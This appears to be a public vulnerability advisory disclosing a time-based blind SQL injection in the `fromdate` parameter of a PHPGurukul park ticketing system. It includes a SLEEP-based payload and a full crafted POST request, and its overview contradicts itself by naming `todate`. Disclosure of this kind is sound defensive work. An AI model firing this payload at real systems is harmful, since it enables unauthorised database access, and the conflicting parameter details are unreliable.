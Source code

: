 # SQL Injection Vulnerability in Park Ticketing Management System (normal-bwdates-reports-details.php--fromdate)

## Overview
A SQL Injection vulnerability was discovered in the `normal-bwdates-reports-details.php` file of the **Park Ticketing Management System Project in PHP v2.0** by PHPGurukul. This vulnerability allows remote attackers to execute arbitrary SQL code via the `todate` parameter in a POST request.

### Affected Product Details

| **Field**               | **Details**                                                                 |
|-------------------------|----------------------------------------------------------------------------|
| Product Name            | Park Ticketing Management System Using PHP and MySQL                       |
| Vendor                  | PHPGurukul                                                                 |
| Affected Code File      | `normal-bwdates-reports-details.ph`                                       |
| Affected Parameter      | `fromdate`                                                                   |
| Method                  | POST                                                                       |
| Type                    | Time-based blind SQL Injection                                             |
| Version                 | v2.0                                                                       |
| Official Website        | [PHPGurukul PTMS](https://phpgurukul.com/park-ticketing-management-system-using-php-and-mysql/) |

---

## Steps to Reproduce
1. **Log in to the Admin Panel**  
   - Access the admin login page and enter valid credentials.
    ![image](https://github.com/baixiaobi/Park/blob/main/screenshot2/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250704163201.png)

2. **Navigate to the Report Section**  
   - Go to the "Report" section and select "Normal People Report."  
   - Choose any date range in the `fromdate` and `todate` input fields.
    ![image](https://github.com/baixiaobi/Park/blob/main/screenshot/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250704104910.png)
3. **Intercept the Request**  
   - Intercept the data packet and find the problematic parameter fromdate
    ![image](https://github.com/baixiaobi/Park/blob/main/screenshot/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250704104921.png)

4. **Confirm the Vulnerability**  
   - Forward the modified request and observe a 10-second delay in the response, confirming the time-based SQL injection.

   - Inject the following payload into the `fromdate` parameter:  
     ```sql
     ' AND (SELECT 7005 FROM (SELECT(SLEEP(10)))JmJX)-- QyUxp
     ```
   - ![image](https://github.com/baixiaobi/Park/blob/main/screenshot/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250704105021.png)
    Transformed into attack payload    

    POST /Park-Ticketing-Management-System-Project/ptms/normal-bwdates-reports-details.php HTTP/1.1
    Host: 127.0.0.1
    Origin: http://127.0.0.1
    Accept-Language: zh-CN,zh;q=0.9
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
    Sec-Fetch-Mode: navigate
    Content-Type: application/x-www-form-urlencoded
    Accept-Encoding: gzip, deflate, br, zstd
    Sec-Fetch-Site: same-origin
    sec-ch-ua: "Google Chrome";v="137", "Chromium";v="137", "Not/A)Brand";v="24"
    sec-ch-ua-mobile: ?0
    Cache-Control: max-age=0
    Referer: http://127.0.0.1/Park-Ticketing-Management-System-Project/ptms/between-dates-normalreports.php
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Cookie: PHPSESSID=fn23r331lhk5gbe4nbqrsg821r
    sec-ch-ua-platform: "Windows"
    Upgrade-Insecure-Requests: 1
    Content-Length: 45

    fromdate=2025-07-04' AND (SELECT 7005 FROM (SELECT(SLEEP(10)))JmJX)-- QyUxp&todate=2025-07-16&submit=
  
---

## Impact
- **Data Theft**: Unauthorized access to sensitive database data.  
- **Data Manipulation**: Alteration or deletion of critical data.  
- **Reconnaissance**: Enumeration of database structures for further attacks.  
- **Financial Loss**: Potential service disruption leading to monetary losses.  
- **Reputation Damage**: Loss of user trust due to breaches or downtime.  

---

## Recommended Mitigations
1. **Input Validation**: Sanitize and validate all user inputs.  
2. **Prepared Statements**: Use parameterized queries to prevent SQL injection.  
3. **Output Encoding**: Encode data before rendering it in the application.  
4. **Content Security Policy (CSP)**: Implement CSP to mitigate HTML injection risks.  


